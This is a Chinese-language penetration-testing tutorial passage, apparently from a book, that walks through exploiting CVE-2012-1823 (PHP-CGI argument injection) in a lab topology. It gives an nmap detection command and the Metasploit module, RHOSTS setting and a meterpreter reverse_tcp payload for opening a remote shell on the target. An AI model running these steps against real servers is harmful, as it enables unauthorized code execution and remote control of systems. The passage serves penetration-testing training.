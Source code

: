 # 利用代码执行漏洞

当设备容易受到代码执行攻击时，攻击者或渗透测试人员被允许在目标服务器上远程执行代码。此外，渗透测试人员将能够检索存储在目标上的源代码。

为了完成这个练习，我们将使用以下拓扑结构：

![](img/739a76ec-d61e-429a-82ac-79a80fadd0aa.png)

要开始执行代码执行利用，请按照以下步骤进行：

1.  我们将尝试发现目标是否容易受到**CVE-2012-1823**的攻击。要发现目标是否容易受到攻击，请使用以下命令与`nmap`：

```
nmap -p80 --script http-vuln-cve2012-1823 <target IP address> 
```

Nmap 可能并不总是返回结果，表明目标存在漏洞。然而，这不应该阻止您确定目标是否容易受到攻击。

1.  接下来，在**Metasploit**中，使用`search`命令查找一个适合的利用模块，以帮助我们利用目标上的漏洞：

![](img/89a269bf-78d5-495a-93e8-7db7dd151d1e.png)

1.  接下来，使用以下命令使用模块并设置远程目标：

```
use exploit/multi/http/php_cgi_arg_injection set RHOSTS 10.10.10.11
```

1.  此外，以下命令允许您使用适当的有效载荷在利用后建立远程 shell 并设置您的本地主机 IP 地址：

```
set payload php/meterpreter/reverse_tcp set LHOST 10.10.10.10
```

1.  使用`exploit`命令对目标发动攻击。以下截图显示了攻击成功的目标：

![](img/f85fcc3c-3a78-4c56-892d-c4d03baa8725.png)
